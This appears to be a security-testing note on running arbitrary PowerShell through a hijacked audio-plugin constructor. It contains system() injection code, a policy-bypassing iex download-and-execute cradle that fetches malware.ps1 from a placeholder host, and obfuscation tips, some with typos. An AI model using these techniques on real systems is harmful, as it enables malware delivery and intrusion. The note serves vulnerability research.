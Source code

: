 # Arbitrary Powershell Command Execution

Creates Weaknesses for: Ransomware, Spyware
Danger Status: Medium
Issue Exists?: Yes
Not Malware Scope?: No
Notes: Test RanSim
Tested?: Yes

Built using the SimpleAgain plugin example code as boilerplate

Possible by hijacking the plugin constructor method:

```jsx
GainParameter::GainParameter (int32 flags, int32 id)
{
	// Hijacking Constructor
	system("cmd.exe /c start calc.exe");
	system("powershell.exe");
	// ...
}
```

Send more dangerous PowerShell commands

```csharp
String payload = "cd ~\\Documents;echo \"write capabilities\">.\\execCheck.txt; Get-Content .\\execCheck.txt; whoami";
system("start powershell.exe "+payload+"; pause");
```

Triggers not only whenever plugin is loaded, but also during plugin scans:

![Untitled](Arbitrary%20Powershell%20Command%20Execution%20cfcbd3c8893e437a9d54e2a42838b60c/Untitled.png)

---

Run PowerShell Script String from web

```powershell
powershell.exe -ep Bypass -nop -noexit -c iex ((New ObjectNet.WebClient).DownloadString(‘https://[website]/malware.ps1′))
```

Get-Content from file

```powershell
powershell.exe –ep Bypass “& {Get-Content .\malware.ps2 | iex}
```

-EncodedCommand creates obfuscation and easier binary implimentation
